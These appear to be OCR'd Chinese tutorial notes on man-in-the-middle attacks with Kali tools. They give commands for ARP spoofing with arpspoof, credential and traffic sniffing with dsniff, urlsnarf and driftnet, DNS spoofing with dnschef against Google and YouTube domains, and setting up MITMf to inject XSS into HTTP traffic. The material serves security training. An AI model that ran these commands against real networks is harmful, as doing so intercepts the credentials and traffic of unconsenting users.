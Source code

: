 
## 密码嗅探

###  手动修改数据包实现ARP欺骗

###  arpspoof

- echo 1 > /proc/sys/net/ipv4/ip_forward
- arpspoof -t 1.1.1.12 -r 1.1.1.1

###  网络嗅探

- driftnet -i eth0 -a -d tempdir-s
- dnsspoof -i eth0 -f /usr/share/dsniff/dnsspoof.hosts
- urlsnarf -i eth0
- webspy -i eth0 1.1.1.10
- dsniff -i eth0 -m
     /usr/share/dsniff/dsniff.services


## 密码嗅探

###  DNS欺骗代理

- dnschef --fakeip=1.1.1.10 --
    fakedomains=www.google.com,www.youtube.com --interface 1.1.1.2
    - q

###  将被害者DNS指向伪造的DNS服务器


## 中间人攻击

####  注入XSS

- 即使没有XSS漏洞，也可以凌空向每个HTTP请求中注入XSS攻击代码
- 一旦得手，影响范围巨大
- 如果中间人发生在运营商线路上，很难引起用户注意

####  Mitmf 安装

- 曾经号称最好用的中间人攻击工具（kali 2.0后默认未安装）
- apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-
    queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3
    libcapstone-dev libffi-dev file
- apt-get install mitmf
- pip uninstall twisted
- wget [http://twistedmatrix.com/Releases/Twisted/15.5/Twisted-](http://twistedmatrix.com/Releases/Twisted/15.5/Twisted-)
    15.5.0.tar.bz2
- pip install ./Twisted-15.5.0.tar.bz2
